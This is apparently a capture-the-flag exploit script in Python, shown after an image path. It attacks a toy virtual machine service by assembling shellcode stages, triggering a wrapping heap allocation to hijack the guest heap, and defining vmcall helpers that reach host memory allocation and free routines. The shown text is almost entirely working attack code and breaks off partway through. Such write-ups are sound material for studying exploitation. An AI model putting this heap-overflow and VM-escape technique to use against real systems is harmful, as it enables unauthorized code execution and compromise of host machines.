 ```python
def main():
    with prog() as p:
        # GUEST HEAP HIJACK:
        # Assemble guest stages 0 and 1
        os.system("nasm stage0.asm -o stage0.bin")
        os.system("nasm stage1.asm -o stage1.bin")

        for i in range(0xb):
                p.send("1")
                p.send(p16(0x1000))

        stage0 = "\x90"*0x10 + open("stage0.bin", "rb").read()

        # this allocation wraps
        p.send("1")
        p.send(p16(len(stage0)))

        p.send("2")
        p.send(p8(0xb))
        p.send(stage0)

        stage1 = open("stage1.bin", "rb").read()
        stage1 += "\0" * (0x8000-len(stage1))

        sleep(.5)
        p.send(stage1)
        sleep(.5)

        def readbuf(length):
                # sync IO via invalid instruction
                p.send("X")
                p.recvuntil("Invalid\n")
                p.send("R")
                p.send(p16(length))
                sleep(.5)
                return p.recvn(length)

        def writebuf(data):
                p.send("W")
                p.send(p16(len(data)))
                p.send(data)
                sleep(.5)

        # Vmcall numbers
        GUEST_VMCALL_ALLOC = 0x100
        GUEST_VMCALL_FREE = 0x101
        GUEST_VMCALL_MEMCPY = 0x102

        def vmcall(ax, bx, cx, dx):
                p.send("S")
                p.send(p16(ax))
                p.send(p16(bx))
                p.send(p16(cx))
                p.send(p16(dx))
                sleep(.5)

        def host_alloc(size):
            assert(size > 127 and size <= 4096)
            vmcall(GUEST_VMCALL_ALLOC, size, 0xbeef, 0xbeef)

        # Variants of the host free operation
        FREE_OP_NOCLEAN = 1
        FREE_OP_ADDRCLEAN = 2
```